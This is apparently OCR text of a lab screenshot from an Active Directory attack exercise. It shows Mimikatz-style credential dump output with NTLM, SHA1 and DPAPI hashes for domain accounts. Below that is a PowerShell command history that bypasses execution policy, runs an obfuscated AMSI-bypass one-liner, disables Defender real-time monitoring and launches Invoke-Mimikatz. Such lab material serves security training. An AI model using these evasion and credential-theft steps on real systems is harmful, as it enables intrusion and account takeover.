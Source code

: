 Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-MGMT$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:23 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DCORP-MGMT$
         * Domain   : dcorp
         * NTLM     : 639c1adde3e0d1ba0d733c7d0d8f23ec
         * SHA1     : 944b2007bbb8137e85ecb019f409790040c435f9
        tspkg :
        wdigest :
         * Username : DCORP-MGMT$
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : dcorp-mgmt$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 21649 (00000000:00005491)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:23 AM
SID               :
        msv :
         [00000003] Primary
         * Username : DCORP-MGMT$
         * Domain   : dcorp
         * NTLM     : 639c1adde3e0d1ba0d733c7d0d8f23ec
         * SHA1     : 944b2007bbb8137e85ecb019f409790040c435f9
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 207093 (00000000:000328f5)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:44:31 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1121
        msv :
         [00000003] Primary
         * Username : mgmtadmin
         * Domain   : dcorp
         * NTLM     : 95e2cd7ff77379e34c6e46265e75d754
         * SHA1     : 3ea8a133b86784c799f75ac1c81add76e34df1ea
         * DPAPI    : b826a190021809d711368730cfc6e41d
        tspkg :
        wdigest :
         * Username : mgmtadmin
         * Domain   : dcorp
         * Password : (null)
        kerberos :

[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\
